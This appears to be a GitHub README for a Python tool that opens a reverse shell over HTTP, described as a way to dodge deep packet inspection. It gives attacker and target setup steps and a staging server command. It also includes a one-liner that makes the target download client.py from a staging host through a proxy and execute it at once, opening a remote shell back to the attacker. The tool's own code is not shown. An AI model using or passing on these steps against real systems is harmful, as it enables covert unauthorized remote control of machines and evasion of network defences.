 # HTTP-Reverse-Shell

A reverse shell over HTTP (dodges deep packet inspection). Using Python 3 and no external dependencies needed.

# Prerequisites
- Python 3 (on both the attacker and the target machine)

# Usage
1. Change `ATTACKER_HOSTNAME` to the actual hostname of the attacker on `client.py`
2. Change `ATTACKER_PORT` on both `client.py` and `server.py` (or you can just use the default)
3. Transfer `client.py` to the target machine
4. Run `server.py` on the attacker machine
```
python3 server.py
```
5. Run `client.py` on the target machine
```
python3 client.py
```
6. Connection will be established


# Possible Transfer Methods

In the directory where client.py exists on a separate attacker payload staging machine, run the following: 

`sudo python3 -m http.server 443`

# Possible Initiation Methods

On the target system run the following command to fetche the staged payload, then reach out to the listener hosted on a second attacker machine to complete the reverse shell.

`curl --proxy proxy.example.com:8080 http://staging.com:443/client.py > client.py && python3 client.py`

